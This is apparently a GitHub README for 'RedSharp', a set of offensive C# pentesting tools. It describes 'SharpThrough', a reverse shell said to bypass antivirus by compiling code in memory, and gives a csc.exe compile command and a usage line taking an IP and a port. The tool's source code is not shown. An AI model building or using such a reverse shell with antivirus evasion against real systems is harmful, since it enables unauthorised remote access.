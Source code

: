 # RedSharp
random C# tools and scripts for Pentesting and offensive stuff

## SharpThrough
Simple yet effective C# reverse shell, at the moment can bypass many (maybe all) AVs  
Simple technique is used -> it compiles code in memory  
IDE VS 2015 , csproj is available. Compile platform choiche is yours: suggested is x64  
You can also compile it with :  
```C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe  /unsafe /platform:x64 /out:sharpthrough.exe Program.cs```  
```
Usage :
sharpthrough.exe IP PORT ```

